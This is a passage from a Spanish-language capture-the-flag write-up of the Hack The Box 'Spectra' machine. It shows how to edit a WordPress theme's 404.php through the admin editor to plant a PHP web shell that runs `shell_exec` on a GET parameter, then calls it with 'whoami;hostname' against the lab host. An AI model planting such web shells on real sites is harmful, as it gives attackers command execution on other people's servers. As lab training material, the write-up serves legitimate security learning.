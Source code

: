 Validemos la ruta en la web:

![317page80_theme_twentytwenty_404php](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/spectra/317page80_theme_twentytwenty_404php.png)

Jmm pues concuerda con que en la línea 10 del código esta esa función, intentemos modificar el archivo para ver si logramos inyectar código:

```php
...
echo "hola";
...
```

![317page80_wp_admin_tE_twenty_404php_editHola](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/spectra/317page80_wp_admin_tE_twenty_404php_editHola.png)

Y damos clic en el botón `Update File`:

> Unable to communicate back with site to check for fatal errors, so the PHP change was reverted. You will need to upload your PHP file change by some other means, such as by using SFTP.

Obtenemos ese error...

Vi validamos el select (al que hice mención antes) tiene 3 themes, `twentynineteen`, `twentyseventeen` y `twentytwenty`. Si cambiamos el theme al `twentyseventeen`, vamos al código del `404.php` e intentamos hacer el mismo procedimiento de antes, tenemos:

```php
<?php
...
 */
echo "hola";
get_header(); ?>
...
```

> File edited successfully.

Validamos ahora en la web:

![317page80_theme_seven_404php_editHola](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/spectra/317page80_theme_seven_404php_editHola.png)

Perfecto, podemos ver el contenido modificado. Ahora con esto podemos ejecutar comandos en el sistema, validémoslo:

```php
...
$coma=shell_exec($_GET['xmd']); echo $coma;
...
```

Le indicamos que nos guarde en la variable `xmd` todo lo que se envíe por medio de una petición `GET` (por medio de la URL) y que ese valor lo ejecute en el sistema (`shell_exec`) y su resultado nos lo guarde en la variable `coma`, despues simplemente mostramos ese valor. Veámoslo en ejecución:

Le decimos que nos muestre quien somos y en que hostname estamos:

```html
http://10.10.10.229/main/wp-content/themes/twentyseventeen/404.php?xmd=whoami;hostname
```
